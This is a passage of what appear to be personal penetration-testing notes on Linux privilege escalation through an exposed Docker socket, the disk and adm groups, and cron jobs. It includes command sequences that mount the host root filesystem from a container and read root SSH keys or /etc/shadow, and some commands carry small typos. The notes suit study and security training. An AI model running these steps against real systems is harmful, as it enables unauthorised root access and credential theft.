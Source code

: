      Can use this to browse and read SSH keys for the root user. We can also try the same process in `/etc` to read /etc/shadow or other restricted bypass areas.

      Can also write too(?)

2. Sockets
    - The raw network communications stream between daemon and us. Occurs either in a unix socket or network socket depending on configured setup.
    - There is a tool that lets us communicate directly with it:
      
      ```
      // RUN FROM WITHIN CONTAINER

      target@hacked-container:/app$ curl https://master.dockerproject.org/linux/x86_64/docker -o docker
      target@hacked-container:/app$ chmod +x docker
      target@hacked-container:/app$ /tmp/docker -H unix:///app/docker.sock ps        # For UNIX sockets unix://

      // MAP HOST ROOT DIRECTORY TO CONTAINER DIRECTORY /hostsystem
      target@hacked-container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d privileged -v /:/hostsystem <IMAGE>

      // EXPLOIT
      target@hacked-container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it <CONTAINERID>
      root@hacked-container-id:/app$ cat /hostsystem/root/.ssh/id_rsa
      ```

3. Niche case: when the docker socket, usually at `/var/run/docker.sock` is writable, then we can still abuse this to escalate privileges, even if we are not in the Docker or root groups or have sudo/SUID access to Docker:
   
   ```
   docker-user@hacked:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubtuntu chroot /mnt bash
   
   root@container:~# whoami
   root@container:~# id -a
   root@container:~# ls -al
   ```

### Disk

User in disk group have fill access to any devices in /dev file system, such as `/dev/sda1` (often main device for OS).

Can use `debugfs` to read/write to file system as root user. Look for SSH keys, shadow / passwd files or other likely credential locations.

### ADM

Not as flashy as the above, but can be used to read `/var/log`.


## Cron Jobs

That thing where the system automates certain scripts or binaries at specific points in time. They run with privileges of file owner by default: if a file owned by root or a higher privileged user is found then exploit it.
